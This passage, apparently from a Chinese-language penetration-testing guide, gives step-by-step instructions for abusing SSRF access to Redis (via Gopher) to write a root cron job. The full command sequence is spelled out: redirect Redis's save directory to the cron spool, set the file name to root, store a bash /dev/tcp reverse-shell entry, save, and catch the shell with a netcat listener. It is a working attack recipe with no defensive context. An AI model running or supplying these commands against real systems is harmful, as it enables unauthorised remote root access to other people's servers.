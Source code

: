 如果无法写入 Web 目录或 SSH 路径，可以尝试通过 Redis 写入 cron 作业。这包括将 Redis 备份目录设置为 cron spool 目录 (如 `/var/spool/cron/` 或 `/etc/cron.d/`)，并将文件名设置为有效的用户名 (例如 `root`)。存储在 Redis 中的“值”将是一个执行反弹 shell 的 cron 作业条目。

**先决条件：**

* SSRF 到 Redis。
* Redis 对 cron 目录具有写权限。
* 了解 cron 目录以及 cron 作业的格式。

**执行步骤与 Redis 命令 (通过 Gopher)：**

1.  **制作 Cron 作业载荷：**
    * 反弹 shell 的示例 cron 条目 (每分钟执行一次)：
        `* * * * * /bin/bash -i >& /dev/tcp/<您的监听IP>/<您的监听端口> 0>&1`
    * 这需要是 Redis 键的内容。如果目标 cron 守护程序需要，请确保有适当的换行符 (行尾的 `\n` 至关重要)。
2.  **Redis 命令：**
    1.  `CONFIG SET dir /var/spool/cron/crontabs/` (或 `/etc/cron.d/` 或类似路径，取决于操作系统)
        * 如果使用 `/etc/cron.d/`，`dbfilename` 可以是任何有效的文件名，例如 `redis-shell`。
        * 如果使用 `/var/spool/cron/crontabs/` (或 `/var/spool/cron/`)，`dbfilename` 必须是系统上的**有效用户名**，例如 `root`。
    2.  `CONFIG SET dbfilename root` (或为 `/etc/cron.d/` 选择的文件名)
    3.  `SET cronjob "* * * * * /bin/bash -i >& /dev/tcp/<您的监听IP>/<您的监听端口> 0>&1\n"`
    4.  `SAVE`
3.  **设置监听器：**
    * 在机器 (`<您的监听IP>`) 上启动一个监听器：`nc -lvp <您的监听端口>`
4.  **构造 Gopher 载荷：**
    * 使用 **tarunkant/Gopherus** 或如第 13 点所述手动构造。

一旦 Redis 保存了 RDB 文件 (现在是 cron 文件)，cron 守护程序应该会获取它并执行反弹 shell，连接回监听器。